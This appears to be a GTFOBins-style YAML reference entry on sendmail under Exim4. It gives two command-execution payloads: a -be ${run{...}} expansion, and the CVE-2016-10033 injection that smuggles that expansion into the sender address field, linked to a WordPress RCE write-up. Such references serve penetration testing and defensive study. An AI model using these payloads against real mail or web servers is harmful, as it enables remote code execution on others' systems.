 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  command:
    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4. 
      code: |
        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit.
      code: |
        sendmail -t -i -femail@address.com(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}} tmp2)

---
```

